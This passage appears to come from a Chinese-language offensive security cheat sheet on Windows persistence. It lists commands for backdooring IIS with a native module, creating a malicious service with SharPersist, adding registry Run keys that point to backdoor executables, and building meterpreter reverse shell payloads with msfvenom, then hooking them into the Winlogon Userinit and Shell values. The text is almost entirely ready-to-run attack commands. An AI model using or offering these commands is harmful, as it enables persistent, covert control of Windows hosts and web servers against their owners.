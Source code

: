 IIS Raid – 使用原生模块后门化 IIS

```powershell
$ git clone https://github.com/0x09AL/IIS-Raid
$ python iis_controller.py --url http://192.168.1.11/ --password SIMPLEPASS
C:\Windows\system32\inetsrv\APPCMD.EXE install module /name:Module Name /image:"%windir%\System32\inetsrv\IIS-Backdoor.dll" /add:true
```

### Windows 服务

使用 SharPersist

```powershell
SharPersist -t service -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Service" -m add
```

## 提升权限

### 注册表 HKLM

与 HKCU 类似。在 HKLM\Software\Microsoft\Windows 的 Run 键下创建一个 REG_SZ 值。

```powershell
值名称：  Backdoor
值数据：  C:\Windows\Temp\backdoor.exe
```

使用命令行

```powershell
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v Evil /t REG_SZ /d "C:\tmp\backdoor.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v Evil /t REG_SZ /d "C:\tmp\backdoor.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices" /v Evil /t REG_SZ /d "C:\tmp\backdoor.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v Evil /t REG_SZ /d "C:\tmp\backdoor.exe"
```

#### Winlogon 辅助 DLL

> 在 Windows 登录时运行可执行文件

```powershell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > evilbinary.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f dll > evilbinary.dll

reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, evilbinary.exe" /f
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /d "explorer.exe, evilbinary.exe" /f
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, evilbinary.exe" -Force
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Shell" "explorer.exe, evilbinary.exe" -Force
```
